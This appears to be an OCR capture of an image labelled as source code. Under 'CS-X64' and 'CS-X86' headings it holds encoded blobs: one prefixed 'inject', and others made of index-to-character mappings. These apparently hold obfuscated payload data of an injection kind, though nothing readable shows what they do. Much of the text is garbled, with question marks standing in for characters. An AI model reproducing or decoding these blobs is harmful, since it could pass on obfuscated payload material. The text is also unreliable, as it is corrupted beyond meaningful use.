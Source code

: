 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86



jesad34|?2,.?;6,e??;10,???O;???1????4???,y;18????,c;22??,?C???;2????6,N;3?0,????y;34?,c;3?8,C???;4???2,r;4?6????,Q;50??,Y?;54,???m;???58,2;????62,p;?66,?s;??7?0,T;7?4??,D;78?,??J;82???,9?;86???,???9;90?,R;9??4,?5?;98????,h;10??2,P??;106?,??i;11?0,G;1????14,I????;118????,H;1??22,r????;126,?N;13????0,j;1????34,k;??|h?Ar.??C??0he6???mlO?9YYyx????yCczU????2C0L????AN???vhI???yxDn??cCLM??CVnBr??rN?L???Q?NBqYy?U2m?T???9l????2105p??gDvs?DZe???TVn???DD5w0???Jwl??v9??zUY9????0??9zR??n?x05?3ljh??zLN???PVm??Aivg????H???Gh????zm????IBVw??HPf?Br??9IT?NxEr??j???CL3k?=????qerger




chasn36|?2,d;6????,W;10?,N????;14,o???;18??,n;???22???,X;2???6,0;??30,R;????34,???c;38???,l????;42,n?;?46,,;????5????0,????z;54?,x;?58??,x;??62?,w;6??6,???b;????70,?a;7???4,L???;78,P?;82???,f;86?,P;???90,q???;94,F?;98??,2????;1???02??,6;1??0???6,??C;11??0,T;1????14,?Y;????118,???M????;122,?y;??126,D????;???1?30,?z;13?4?,n;1??3???8??,9;14????2,?d;?|h???ArdC0?hW6??mlN9Y????Yoxy?Cn?zU2X0?L??A????0??vhIRx????Dn??cC???LMl??VnB?nr??NL,????NBqzy??U???2xT9?lxn3L??ww??BfbD?Yha?ObB????Lj3???LP2????l????XfyP2?PUvC?qu2????VFMC????v2C???M????Y6O9z?CfwKT???YC9?YyT???wMU??Ll??yz3H?D????gBLz???lKMnH?rD9=?a=??derihsv
